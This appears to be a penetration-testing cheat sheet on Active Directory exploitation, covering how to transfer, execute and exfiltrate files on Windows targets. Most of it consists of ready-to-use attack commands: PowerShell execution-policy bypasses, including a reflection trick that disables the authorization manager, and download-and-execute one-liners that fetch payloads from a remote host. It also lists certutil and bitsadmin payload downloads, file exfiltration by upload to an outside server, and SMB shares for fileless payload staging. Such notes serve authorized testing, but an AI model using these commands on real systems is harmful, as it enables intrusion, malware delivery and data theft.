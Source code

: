 
# Active Directory Exploitation: File Transfer and Exfiltration, Execution

---

[Back to Table of Contents](../cysec)

># Overview
 - File transfer
 - File/script execution
 - File transfer using SMB
 - File transfer using external tools & static binaries
 - Resources

---

# File download, native commands:

### Powershell 
Binary or script execution via powershell is crucial to exploitation of AD environments, as is the ability to 
transfer files to the target machine. 
Below are various methods of powershell execution, including methods of policy bypass, execution without writing to disk,
piping, and so on.

```powershell
Get-ExecutionPolicy
```
Enabling powershell
```powershell
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File file.ps1
```

Using Powershell's Invoke- commands:
```powershell
Get-Content .file_to_execute.ps1 | Invoke-Expression

GC .file_to_execute.ps1 | iex

PowerShell.exe -ExecutionPolicy Bypass -File .file_to_execute.ps1

PowerShell.exe -ExecutionPolicy UnRestricted -File .file_to_execute.ps1

Set-ExecutionPolicy Bypass -Scope Process

Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted

HKEY_CURRENT_USERSoftwareMicrosoftPowerShell1ShellIdsMicrosoft.PowerShell

function Disable-ExecutionPolicy {($ctx = $executioncontext.gettype().getfield("_context","nonpublic,instance").getvalue( $executioncontext)).gettype().getfield("_authorizationManager","nonpublic,instance").setvalue($ctx, (new-object System.Management.Automation.AuthorizationManager "Microsoft.PowerShell"))}  Disable-ExecutionPolicy  .file_to_execute.ps1
```

Bypassing policy via piping commands:
```powershell
Echo Write-Host "script" | PowerShell.exe -noprofile -

Get-Content .file_to_execute.ps1 | PowerShell.exe -noprofile -
```
Using type -- basically the Windows equivalent of cat:
```powershell
type .runme.ps1 | PowerShell.exe -noprofile - 
```
Downloading and executing payloads from remotely hosted servers:
```powershell
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('https://ip/payload.ps1')"

powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://ip/payload.exe', 'payload.exe')
```
Upload/Exfiltration of files using powershell:
```powershell
powershell (New-Object System.Net.WebClient).UploadFile('http://ip/file_to_extract.txt', 'file_to_extract.txt')
```
Powershell: Command
 - Can be written as -command or simply -c
```powershell
Powershell -command "script_content"
```
Combining the methods:
```powershell
powershell -executionpolicy bypass IEX(New-Object Net.WebClient).downloadString('http://ip/payload.ps1')
```
---

Other methods of file transfer also exist within the context of a default AD/Windows environment.

### certutil.exe
```powershell
certutil.exe -urlcache -split -f http://ip/payload.exe payload.exe
```
### wget & curl
wget and curl are sometimes available on Windows machines and can be used just as on Linux, however 
they are not always available. 

### bitsadmin.exe
```powershell
bitsadmin.exe /transfer mydownloadjob /download /priority high http://ip/payload.exe payload.exe
```
----
# SMB
SMB is an extremely useful method of file transfer for both Windows and Linux targets.

One of the strongest advantages of smb is the ability to run payloads without the files ever touching 
the disk while also not using http methods of download, which may be blocked or heavily filtered. 

Within the impacket toolbox is an extremely useful smb server script which allows for quick, simple, and seamless
initialization of an smb server. 

```
impacket-smbserver share_name $(pwd) -smb2support -user username -password password
```
Logging into the smb server from the target machine can be done simply via powershell or evil-winrm:
```powershell   
$pass = convertto-securestring 'password' -AsPlainText -Force;
$cred = New-Object System.Management.Automation.PSCredential('username', $pass);
New-PSDrive -Name username -PSProvider FileSystem -Credential $cred -Root \\ip\share_name;
```
The share can be viewed just as any other directory on Windows using dir:
```powershell
dir \\ip\share_name
```
Upload/Download of files from the share:
```powershell
copy \\ip\share_name\file_to_extract.txt file_to_extract.txt
```
```powershell
copy file_to_extract.txt \\ip\share_name\file_to_extract.txt
```
---

# Other Methods
 - ftp
 - tftp
 - mshta
 - rundll32
 - php
 - socat
 - netcat

## Useful resources:

https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/

https://github.com/milkdevil/UltimateAppLockerByPassList

https://github.com/740i/pentest-notes/blob/master/filetransfers.md

https://guide.offsecnewbie.com/transferring-files

https://ppn.snovvcrash.rocks/pentest/infrastructure/file-transfer

https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65

https://www.hackingarticles.in/file-transfer-cheatsheet-windows-and-linux/

https://book.hacktricks.xyz/generic-methodologies-and-resources/exfiltration